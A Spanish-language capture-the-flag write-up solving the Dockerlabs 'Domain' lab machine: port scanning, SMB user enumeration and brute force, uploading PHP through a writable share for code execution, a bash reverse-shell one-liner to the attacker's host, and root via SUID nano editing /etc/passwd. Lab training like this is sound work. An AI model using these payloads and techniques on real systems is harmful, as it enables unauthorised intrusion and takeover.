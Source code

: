 
Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Domain y está incluida en la categoría media de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg).

![alt text](images/image.png)

---------------------------------------------------------------------------------------------------------------------------------------------------

Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.

![alt text](images/image-1.png)

Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.

![alt text](images/image-2.png)

Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.

```sudo nmap -p- --min-rate 5000 172.17.0.2 -Pn -n -oN escaneo```

![alt text](images/image-3.png)

Encontramos tres puertos abiertos, vamos a realizar un escaneo más exhaustivo para tratar de enumerar los servicios así como para lanzar ciertos scripts básicos de reconocimiento que nos otorguen más información acerca de los mismos.

``sudo nmap -p 80,139,445 --min-rate 5000 -sCV 172.17.0.2 -Pn -n -oN escaneoSC``

![alt text](images/image-4.png)

No vemos nada interesante, vamos a aanalizar el puerto 80 de este sistema.

![alt text](images/image-5.png)

Vemos una página que nos explica lo que es Samba, vamos a fuzzear para localizar directorios y archivos ocultos que no se vean a simple vista.

![alt text](images/image-6.png)

De momento sólo encontramos la página index.html, mientras esto se lanza vamos a enumerar el puerto 445 del sistema con enum4linux ya que nos puede proporcionar información acerca de usuarios.

![alt text](images/image-7.png)

![alt text](images/image-8.png)

¡Genial! Tenemos los nombres de dos de los usuarios disponibles, y vemos que no tenemos permisos para listar los contenidos de los shares sin disponer de credenciales válidas. 

# Explotación

Vamos a usar netexec o crackmapexec para lanzar un ataque de fuerza bruta y tratar de obtener de esta forma un inicio de sesión válido.

![alt text](images/image-9.png)

Con el usuario james no tenemos suerte pero con el usuario bob conseguimos dar con un inicio de sesión válido, vamos a usarlo para acceder al contenido de los shares.

![alt text](images/image-10.png)

Vemos que este usuario tiene permisos de escritura en el directorio html, ¿podría ser el directorio que contiene los archivos que encontramos en el puerto 80? Vamos a comprobarlo.

![alt text](images/image-11.png)

Parece que efectivamente esto es así ya que encontramos el único archivo que encontramos a raíz de nuestro fuzzeo, vamos a introducir un archivo ya que tenemos permisos de escritura y ver si podemos acceder al mismo desde el puerto 80.

![alt text](images/image-12.png)

![alt text](images/image-13.png)

![alt text](images/image-14.png)

Vamos a ver si podemos acceder al mismo.

![alt text](images/image-15.png)

¡Eso es! Podemos introducir archivos en el servidor web, por lo que podemos subir una reverse shell que nos otorgue una conexión en nuestra máquina atacante, vamos a hacerlo.

![alt text](images/image-16.png)

Con Wappalyzer vemos que el servidor interpreta el código PHP.

![alt text](images/image-17.png)

![alt text](images/image-18.png)

![alt text](images/image-19.png)

Muy bien, tenemos ejecución remota de código, vamos a enviar una reverse shell a nuestra máquina atacante.

![alt text](images/image-20.png)

![alt text](images/image-21.png)

Conseguimos nuestra reverse shell con el payload ``bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"`` aunque es importante que antes de usarlo lo urlencodeemos.

# Post-Explotación

Tenemos nuestro primer acceso y estamos listos para enumerar el sistema en busca de potenciales vías de escalada de privilegios. Lo primero que haremos será tratar de iniciar sesión con el usuario bob ya que tenemos unas credenciales válidas.

![alt text](images/image-22.png)

Efectivamente, somos el usuario bob, vamos a tratar de enumerar los permisos del mismo.

![alt text](images/image-23.png)

No tenemos el comando sudo instalado en la máquina, vamos a enumerar los binarios con el set SUID activado.

![alt text](images/image-24.png)

¿SUID en el binario nano? Esto significa que podríamos escribir sobre cualquier archivo, podríamos utilizar esto para modificar el archivo /etc/passwd para eliminar el requerimiento de contraseña del usuario root, vamos a intentarlo.

![alt text](images/image-25.png)

Parece que la máquina se rompió, suele pasar con nano, vamos a realizar un tratamiento de la tty completo.

![alt text](images/image-26.png)

Vamos a intentarlo ahora.

![alt text](images/image-27.png)

Estaba teniendo un problema al estabilizar la shell por rlwrap así que probé con netcat y pude estabilizarla correctamente. Una vez hecho esto tendremos que eliminar la x marcada para que no se nos pida contraseña al cambiar de usuario a root.

![alt text](images/image-28.png)

Con esto hecho no debería pedirnos contraseña al cambiar a root.

![alt text](images/image-29.png)

¡Genial! Tenemos una shell como el usuario root y hemos comprometido el sistema por completo pudiendo dar por concluida la máquina. Espero que os haya gustado mucho y nos vemos en la siguiente. :)


